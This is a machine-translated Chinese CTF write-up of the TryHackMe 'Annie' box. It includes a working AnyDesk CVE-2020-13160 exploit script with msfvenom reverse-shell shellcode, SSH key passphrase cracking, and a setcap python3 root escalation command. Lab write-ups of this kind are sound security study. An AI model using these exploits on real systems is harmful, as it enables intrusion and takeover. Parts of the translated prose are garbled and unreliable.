







# TryHackme 的安妮

> 原文：<https://infosecwriteups.com/annie-from-tryhackme-edfea2b78eb5?source=collection_archive---------0----------------------->

## 远程访问有不同的风格。


大家好，我是 Hac，今天我们要做的是 Annie，这是 Tryhackme 上的一个“中型”盒子。我认为它的难度是“容易”的，因为你只需要找到一个合适的港口来获得最初的立足点。所以不要浪费任何时间，让我们开始吧。

Nmap 扫描

```
root@ip-10-10-98-158:~# sudo nmap -sV -p- 10.10.226.112 -oA nmap --min-rate 1000Starting Nmap 7.60 ( [https://nmap.org](https://nmap.org) ) at 2022-07-06 15:18 BST
Nmap scan report for ip-10-10-226-112.eu-west-1.compute.internal (10.10.226.112)
Host is up (0.00042s latency).
Not shown: 65532 closed ports
PORT      STATE SERVICE         VERSION
22/tcp    open  ssh             OpenSSH 7.6p1 Ubuntu 4ubuntu0.6 (Ubuntu Linux; protocol 2.0)
7070/tcp  open  ssl/realserver?
40293/tcp open  tcpwrapped
MAC Address: 02:39:05:FF:91:67 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernelService detection performed. Please report any incorrect results at [https://nmap.org/submit/](https://nmap.org/submit/) .
Nmap done: 1 IP address (1 host up) scanned in 150.83 seconds
```

我们对端口 7070 和 40293 了解不多。所以我在谷歌上快速搜索了一下，发现 7070 端口通常运行 any-desk，这是一个远程访问软件。

 [## 端口 7070 (tcp/udp)

### 已知端口分配和漏洞 7070 tcp real audio real audio any desk 远程桌面软件使用 TCP 端口…

www.speedguide.net](https://www.speedguide.net/port.php?port=7070) 

之后，我搜索了与任何桌面软件相关的漏洞。**CVE-2020–13160**在谷歌搜索中排名第一，所以我想试试看。

[](https://www.exploit-db.com/exploits/49613) [## 攻击性安全利用数据库档案

### AnyDesk 5.5.2 -远程代码执行。CVE-2020-13160。Linux 平台的远程利用

www.exploit-db.com](https://www.exploit-db.com/exploits/49613) 

我利用这个漏洞做了一点小小的修改(你需要改变 ip 地址和外壳代码。

```
#!/usr/bin/env python
import struct
import socket
import sysip = 'IP address' #change this
port = 50001def gen_discover_packet(ad_id, os, hn, user, inf, func):
  d  = chr(0x3e)+chr(0xd1)+chr(0x1)
  d += struct.pack('>I', ad_id)
  d += struct.pack('>I', 0)
  d += chr(0x2)+chr(os)
  d += struct.pack('>I', len(hn)) + hn
  d += struct.pack('>I', len(user)) + user
  d += struct.pack('>I', 0)
  d += struct.pack('>I', len(inf)) + inf
  d += chr(0)
  d += struct.pack('>I', len(func)) + func
  d += chr(0x2)+chr(0xc3)+chr(0x51)
  return d#change this 
#msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.y.y LPORT=4444 -b "\x00\x25\x26" -f python -v shellcode
shellcode =  b""
shellcode += b"\x48\x31\xc9\x48\x81\xe9\xf6\xff\xff\xff\x48"
shellcode += b"\x8d\x05\xef\xff\xff\xff\x48\xbb\x63\x40\x04"
shellcode += b"\x9d\x65\x60\xc6\xfb\x48\x31\x58\x27\x48\x2d"
shellcode += b"\xf8\xff\xff\xff\xe2\xf4\x09\x69\x5c\x04\x0f"
shellcode += b"\x62\x99\x91\x62\x1e\x0b\x98\x2d\xf7\x8e\x42"
shellcode += b"\x61\x40\x15\xc1\x6f\x6a\xa4\x65\x32\x08\x8d"
shellcode += b"\x7b\x0f\x70\x9c\x91\x49\x18\x0b\x98\x0f\x63"
shellcode += b"\x98\xb3\x9c\x8e\x6e\xbc\x3d\x6f\xc3\x8e\x95"
shellcode += b"\x2a\x3f\xc5\xfc\x28\x7d\xd4\x01\x29\x6a\xb2"
shellcode += b"\x16\x08\xc6\xa8\x2b\xc9\xe3\xcf\x32\x28\x4f"
shellcode += b"\x1d\x6c\x45\x04\x9d\x65\x60\xc6\xfb"print('sending payload ...')
p = gen_discover_packet(4919, 1, '\x85\xfe%1$*1$x%18x%165$ln'+shellcode, '\x85\xfe%18472249x%93$ln', 'ad', 'main')
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
s.sendto(p, (ip, port))
s.close()
print('reverse shell should connect within 5 seconds')
```

我想知道 50001 号港口。我们在 nmap 扫描中没有找到这个端口，我运行了两次 nmap，但是没有找到。我再次运行 Nmap UDP 扫描，我得到了端口。



让我们运行我们的利用。确保您已经在利用脚本中进行了适当的更改，并且 netcat 监听器已打开。

我得到了贝壳……



之后我复制了 **/home/annie/的内容。ssh/id_rsa** 到我们的本地机器。我试图登录，但我们需要一个密码，我们没有。我用 **ssh2john 和约翰**开膛手得到密码短语。



然后我和约翰一起吃了大麻。



现在我们可以 ssh 到这个盒子中(确保 id_rsa 文件 chmod 600 有适当的权限)。

**是时候将我们的权限提升至根用户了………………。**

我们可以使用 setcap 功能将我们的权限提升到 root 用户。



**获取根的步骤:-**

1:-将 python3 复制到/tmp 或任何其他目录。

```
cp /usr/bin/python3 .
```

2:-启用功能

```
$ /sbin/setcap cap_setuid+ep /tmp/python3
```

3:-运行 python

```
$ ./python3 -c "import os;os.setuid(0);os.system('/bin/bash')"
```

而且我们终于得到了 shell 作为 root 用户！！！！



我希望你喜欢这篇文章。如果你有任何问题，你可以通过推特问我[https://twitter.com/Hac10101](https://twitter.com/Hac10101)